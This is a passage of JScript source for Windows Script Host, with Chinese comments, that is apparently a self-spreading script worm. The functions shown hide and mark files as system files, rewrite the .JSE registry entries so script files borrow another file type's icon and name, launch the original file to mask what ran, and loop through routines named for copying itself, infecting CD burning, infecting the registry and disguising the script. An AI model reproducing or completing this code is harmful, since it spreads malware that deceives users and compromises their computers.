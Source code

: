         }
    }
}

function ReadText(filename) {
    try {
        return fso.OpenTextFile(filename, 1).ReadAll();
    } catch (e) {
        return '';
    }
}


function SetFileNewAttributes(filename, newattributes) {
// newattributes 可用值
// 常数          值     描述
// Normal        0      普通文件。没有设置任何属性。
// ReadOnly      1      只读文件。可读写。
// Hidden        2      隐藏文件。可读写。
// System        4      系统文件。可读写。
// Directory     16     文件夹或目录。只读。
// Archive       32     上次备份后已更改的文件。可读写。
// Alias         1024   链接或快捷方式。只读。
// Compressed    2048   压缩文件。只读。
    if (fso.FileExists(filename)) {
        try {
            var f = fso.GetFile(filename);
            f.Attributes = newattributes ;
        } catch (e) {}
    }
}

function ChangeJseRge(item) {
// 修改.JSE文件的默认值、默认图标等注册表信息
    shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\', RegReadItem(RegReadItem(item) + '\\'));
    shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\DefaultIcon\\', RegReadItem(RegReadItem(item) + '\\DefaultIcon\\'));
    shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\FriendlyTypeName', RegReadItem(RegReadItem(item) + '\\'), 'REG_EXPAND_SZ');
}

function OpenTheOriginalFile(path, file_type) {
    try {
        var open_command = RegReadItem(RegReadItem(file_type) + '\\shell\\Open\\command');
        if (open_command.match(/%1/) != null) {
            shell.Run(open_command.replace('%1', path + file_type));
        } else {
            shell.Run(open_command + ' "' + path + file_type + '"');
        }
    } catch (e) {}
}

function HideAndDisguise() {
    while (ScriptPath == SysPath) {
        CopyScriptFile(SysPath);
        InfectCDBuring();
        InfectReg();
        DisguiseJse();
        WScript.Sleep(1000);
    }
}
